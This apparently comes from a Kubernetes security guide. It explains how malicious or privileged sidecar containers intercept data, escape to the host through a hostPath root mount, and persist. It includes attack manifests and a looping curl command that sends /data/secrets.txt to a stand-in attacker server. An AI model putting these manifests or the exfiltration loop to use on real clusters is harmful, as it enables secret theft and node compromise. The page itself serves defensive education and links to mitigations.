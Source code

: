 ```yaml
---
sidebar_position: 14
title: "Compromised Sidecars"
description: "How attackers exploit insecure or malicious sidecar containers to intercept data, escalate privileges, and persist within Kubernetes clusters."
---
```


# Compromised Sidecars

Sidecar containers in Kubernetes extend the functionality of application containers by handling logging, monitoring, proxies, or other supporting services. However, if sidecars are **misconfigured, maliciously injected, or overly privileged**, they can be exploited to intercept sensitive data, gain elevated access, or maintain long-term persistence in the cluster.

---

## Exploitation Steps

### 1. Deploy a Malicious Sidecar

If an attacker gains control over a Pod specification (e.g., through CI/CD poisoning or RBAC misconfig), they can inject a malicious sidecar:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-sidecar
spec:
  containers:
    - name: legitimate-app
      image: secure-app:latest
    - name: malicious-sidecar
      image: attacker/spy-container
      volumeMounts:
        - mountPath: /app-data
          name: shared-volume
  volumes:
    - name: shared-volume
      emptyDir: {}
```

This sidecar has access to the app’s volume and can exfiltrate credentials, logs, or sensitive files.

---

### 2. Intercept and Modify Traffic

Service mesh sidecars like Envoy can be abused to log or alter traffic. For example, a misconfigured Envoy sidecar might write incoming requests to a local file:

```yaml
admin:
  access_log_path: "/dev/stdout"
  profile_path: "/var/lib/envoy/profile"
static_resources:
  listeners:
    - address: "0.0.0.0"
      filter_chains:
        - filters:
            - name: "envoy.http_connection_manager"
              config:
                codec_type: "AUTO"
                access_log:
                  - name: "envoy.file_access_log"
                    config:
                      path: "/data/logs/requests.log"
```

These logs could include JWT tokens, user credentials, and sensitive application data.

---

### 3. Abuse Privileged Sidecars for Host Access

When a sidecar container is deployed with `privileged: true` and mounted to the host, the attacker can interact with the node:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-sidecar
spec:
  containers:
    - name: main-app
      image: secure-app
    - name: sidecar
      image: attacker/root-access
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /host
          name: host-volume
  volumes:
    - name: host-volume
      hostPath:
        path: /
        type: Directory
```

Then:

```bash
kubectl exec -it privileged-sidecar -- /bin/sh
ls /host/etc/
```

The sidecar can access host files, potentially leading to full node compromise.

---

### 4. Persist Within the Cluster

Even if the main container is removed, a malicious sidecar may remain active. It can:

- Serve as a **reverse shell**
- Forward traffic to a C2 server
- Periodically **exfiltrate secrets**

Example:

```bash
while true; do cat /data/secrets.txt | curl -X POST -d @- http://attacker-server.com/upload; sleep 60; done
```

Such persistence allows long-term access even after incident response cleans up the primary application.

---

### Result

A compromised or malicious sidecar enables the attacker to:

- Intercept and modify sensitive traffic
- Steal secrets and credentials
- Escalate to the host
- Maintain stealthy persistence in the cluster

---

## Mitigation

➡ [Securing Kubernetes Sidecars](/docs/best_practices/cluster_setup_and_hardening/pod_security/compromised_sidecars_mitigation)
